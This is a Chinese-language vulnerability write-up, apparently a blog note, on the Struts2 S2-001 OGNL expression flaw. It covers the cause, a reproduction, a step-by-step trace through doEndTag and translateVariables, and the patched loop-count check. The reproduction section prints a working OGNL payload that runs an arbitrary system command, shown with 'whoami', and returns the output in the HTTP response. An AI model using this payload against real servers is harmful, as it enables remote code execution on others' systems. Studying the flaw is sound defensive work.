 # struts-s2-001 代码执行漏洞
1、漏洞名称
漏洞名称：Struts Remote Code Exploit
漏洞编号：Struts2-001
漏洞类型：Remote Code Execution
2、漏洞原理
Struts2 是流行和成熟的基于 MVC 设计模式的 Web 应用程序框架。 Struts2 不只是 Struts1 下一个版本，它是一个完全重写的 Struts 架构。Struts2 的标签中使用的是OGNL表达式，OGNL 是 Object Graphic Navigation Language(对象图导航语言)的缩写，它是一种功能强大的表达式语言，使用它可以存取对象的任意属性，调用对象的方法，使用 OGNL 表达式的主要作用是简化访问对象中的属性值，但Struts2漏洞就源于OGNL。漏洞信息可见https://cwiki.apache.org/confluence/display/WW/S2-001



对ognl表达式的解析方法是通过递归循环的方式进行解析，导致可以对输入形如%{*}的表达式字符串进行解析。

0x02 漏洞复现
测试poc

%{1+1}
![Pasted image 20230519111956](http://qn.qu1u1.cn/202305191123033.png)


解析表达式，在返回框中返回2

![Pasted image 20230519112036](http://qn.qu1u1.cn/202305191123682.png)



或者直接执行命令 

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
其中whoami可以换其他命令

![[Pasted image 20230519112100.png]]





0x03 漏洞分析
1、漏洞成因总体概览
该漏洞触发的一个因素之一是在Action执行完成之后，返回“错误”的结果到原先的带有taglib标签的jsp进行渲染，而返回的时候会对字符串进行ognl表达式递归解析。借助一个图更好理解一些

![Pasted image 20230519112140](http://qn.qu1u1.cn/202305191123653.png)

Result配置



我们看看execute方法的内在逻辑



依照struts.xml当execute返回success时，将指向success.jsp,若为error将执行index.jsp，而index.jsp中的代码如下



当其返回到index.jsp时，而jsp中有需要解析渲染的标签，又因为name中的内容为%{1+1},被当成ognl表达式执行。最后返回给index.jsp的name变量。

网上很多文章和论坛在验证这块说是当验证不通过，从而result转向原页面（index.jsp）时候会出现这个漏洞，感觉还是不够严谨，其实无论验证成功或者失败，与结果无关，真正的前提原因是无论转向哪个页面，只要出现解析标签解析输入的时候的变量name（<s:xxxx name="name">），那么payload %{*}将会进入有问题的ognl表达式解析方法中进行解析，从而造成命令执行。验证如下：

修改success.jsp，直接添加了跟index.jsp一样的内容，textfield修改为textarea



根据LoginAction.java其逻辑既

（1）index.jsp输入

（2）LoginAction处理

（3）LoginAction返回success转向success.jsp而非index.jsp原页面



2、 漏洞细节
后面的篇幅过多且复杂，想大概了解直接看最后看粗体字。

关于这段解析的细节，网络上很多文章都有写，从LoginAction到渲染的这段调用太复杂了，这里直接从doEndTag开始讲，力求通俗易懂。

从doEndTag开始分析，主要是因为从上面的漏洞概览上可知，该漏洞是在渲染返回的jsp中的标签的时候触发的。

请求payload



LoginAction处理完结果返回



doEndTag下断点



跟进component.end()



继续跟进evaluateParams



findValue既解析该表达式字符串的值，此处输入的expr的值为%{name}



表达式解析执行



获取name的值



通过getValue对name进行取值



最终返回%{1+1},while循环并未中断%{1+1}再次解析。



若expr为name则取name的值，若为1+1则直接计算其结果，若为其他的payload比如执行命令则直接执行命令。



执行结果





理一理核心关键点

（1）假设输入的是其abc或者2+2字符串，进入解析时候的表达式是%{name},而getValue("name")返回值则是2+2的字字符串，再次进入循环时，被判断不是表达式直接返回给前台（漏洞没有触发）。

（2）若输入的是%{2+2}，进入解析时候的表达式也是getValue("name")，getValue("name")返回的则是%{2+2}，而解析方法由于是循环式的，由于判断该值依然是ognl表达式，则进一步去出2+2传达给getValue，此时的getValue("2+2")，则2+2被当作表达式执行了加法。

参考文章

Struts2 001 漏洞复现&分析 - 0x28 - 博客园

S2-001漏洞复现 - 吟风芥尘 - 博客园

漏洞修复
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, TextParseUtil.ParsedValueEvaluator evaluator, int maxLoopCount) {
        Object result = expression;
 
        while(true) {
            int start = expression.indexOf(open + "{");
            int length = expression.length();
            int x = start + 2;
            int count = 1;
 
            while(start != -1 && x < length && count != 0) {
                char c = expression.charAt(x++);
                if (c == '{') {
                    ++count;
                } else if (c == '}') {
                    --count;
                }
            }
            if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
            }
            int end = x - 1;
            if (start == -1 || end == -1 || count != 0) {
                return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
            }
 
            String var = expression.substring(start + 2, end);
            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }
 
            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            if (o != null) {
                if (TextUtils.stringSet(left)) {
                    result = left + o;
                } else {
                    result = o;
                }
 
                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }
 
                expression = left + o + right;
            } else {
                result = left + right;
                expression = left + right;
            }
        }
    }
这里增加了对OGNL递归解析次数的判断，当解析完一层表达式后，如图，此时loopCount > maxLoopCount，从而执行break，不再继续解析%{1+1}，默认情况下只会解析第一层：

if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
}
